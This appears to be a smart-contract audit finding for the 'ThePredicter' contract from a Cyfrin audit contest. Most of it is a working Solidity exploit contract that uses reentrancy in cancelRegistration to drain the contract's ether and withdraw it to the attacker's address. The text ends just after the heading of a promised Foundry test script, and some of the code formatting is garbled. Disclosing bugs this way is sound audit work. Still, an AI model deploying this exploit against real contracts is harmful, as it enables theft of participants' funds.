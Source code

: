 ## Vulnerability Details

You find the bug on 

## <https://github.com/Cyfrin/2024-07-the-predicter/blob/839bfa56fe0066e7f5610197a6b670c26a4c0879/src/ThePredicter.sol#L64>

The following exploit contract will take advantage of the reentrancy vulnerability in the `cancelRegistration` function to drain funds from `ThePredicter`:

`// SPDX-License-Identifier: MIT`\
`pragma solidity ^0.8.0;`

`import "./ThePredicter.sol";`

`contract Exploit {````ThePredicter public thePredicter;````address public owner;`

```Solidity
constructor(address _thePredicter) {
    thePredicter = ThePredicter(_thePredicter);
    owner = msg.sender;
}

// Fallback function to enable reentrancy attack
receive() external payable {
    if (address(thePredicter).balance >= thePredicter.entranceFee()) {
        thePredicter.cancelRegistration();
    }
}

function attack() external payable {
    require(msg.value == thePredicter.entranceFee(), "Send exact entrance fee");

    // Register with the vulnerable contract
    thePredicter.register{value: msg.value}();

    // Trigger the exploit
    thePredicter.cancelRegistration();
}

function withdraw() external {
    require(msg.sender == owner, "Not the owner");
    payable(owner).transfer(address(this).balance);
}
```

`}`

## Here is the test script to demonstrate the attack using Foundry

// SPDX-License-Identifier: MIT\
pragma solidity ^0.8.0;
